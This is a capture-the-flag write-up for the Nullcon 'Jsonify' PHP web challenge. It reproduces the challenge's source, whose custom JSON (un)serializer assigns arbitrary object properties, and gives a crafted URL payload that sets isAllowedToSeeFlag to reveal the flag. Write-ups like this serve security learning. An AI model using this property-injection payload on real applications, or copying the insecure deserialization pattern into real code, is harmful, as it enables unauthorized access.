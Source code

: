 # Jsonify
```
Type: Web
Plateform : Nullcon
Difficulty : [x] [x] [] [] []
Tools : web-console
```

#### DESCRIPTION
Everyone's telling me that serialize/unserialize should not be used with user-supplied input.</br>
Alright, I implemented my own JSON-based (un)serializer, so all potential vulnerabilities are gone, right?

--> writeup inspired by @pihnv</br>
https://hackmd.io/@pihnv/nullcon-goa-hackimctf-2022-writeup#Jsonify

#### STEP 1
In the first step, we must refactoring code structure:
```
<?php
ini_set('allow_url_fopen', false);
interface SecurSerializable
{
    public function __construct();
    public function __shutdown();
    public function __startup();
    public function __toString();
}

class Flag implements SecurSerializable
{
    public $flag;
    public $flagfile;
    public $properties = array();
    public function __construct($flagfile = null)
    {
        if (isset($flagfile)) {
            $this->flagfile = $flagfile;
        }
    }
    public function __shutdown()
    {
        return $this->properties;
    }
    public function __startup()
    {
        $this->readFlag();
    }
    public function __toString()
    {
        return "ClassFlag(" . $this->flag . ")";
    }
    public function setFlag($flag)
    {
        $this->flag = $flag;
    }
    public function getFlag()
    {
        return $this->flag;
    }
    public function setFlagFile($flagfile)
    {
        if (stristr($flagfile, "flag") || !file_exists($flagfile)) {
            echo "ERROR: File is not valid!";
            return;
        }
        $this->flagfile = $flagfile;
    }
    public function getFlagFile()
    {
        return $this->flagfile;
    }
    public function readFlag()
    {
        if (!isset($this->flag) && file_exists($this->flagfile)) {
            $this->flag = join("", file($this->flagfile));
        }
    }
    public function showFlag()
    {
        if ($this->isAllowedToSeeFlag) {
            echo "Theflagis:" . $this->flag;
        } else {
            echo "Theflagis:[You'renotallowedtoseeit!]";
        }
    }
}
function secure_jsonify($obj)
{
    $data = array();
    $data['class'] = get_class($obj);
    $data['properties'] = array();
    foreach ($obj->__shutdown() as & $key) {
        $data['properties'][$key] = serialize($obj->$key);
    }
    return json_encode($data);
}

function secure_unjsonify($json, $allowed_classes)
{
    $data = json_decode($json, true);
    if (!in_array($data['class'], $allowed_classes)) {
        throw new Exception("ErrorProcessingRequest", 1);
    }
    $obj = new $data['class']();
    foreach ($data['properties'] as $key => $value) {
        $obj->$key = unserialize($value, ['allowed_classes' => false]);
    }
    $obj->__startup();
    return $obj;
}
if (isset($_GET['show']) && isset($_GET['obj']) && isset($_GET['flagfile'])) {
    $f = secure_unjsonify($_GET['obj'], array(
        'Flag'
    ));
    echo $f;
    $f->setFlagFile($_GET['flagfile']);
    $f->readFlag();
    $f->showFlag();
} else if (isset($_GET['show'])) {
    $f = new Flag();
    $f->flagfile = "./flag.php";
    $f->readFlag();
    $f->showFlag();
} else {
    header("Content-Type:text/plain");
    echo preg_replace('/\s+/', '', str_replace("\n", '', file_get_contents("./jsonify.php")));
}
```

#### STEP 2
Once the file is reconstituted, we must locate the important code lines to obtain the flag:
```
if(isset($_GET['show'])&&isset($_GET['obj'])&&isset($_GET['flagfile']))
$f->readFlag();
...
```

#### STEP 3
Then, we just to make a correct url to get flag with the code above:
```
http://52.59.124.14:10002/?show&obj={"class":"Flag","properties":{"isAllowedToSeeFlag":"b:1","flagfile":"flag.php"}}&flagfile=.
```

#### FLAG
`==> ENO{PHPwn_1337_hakkrz}`
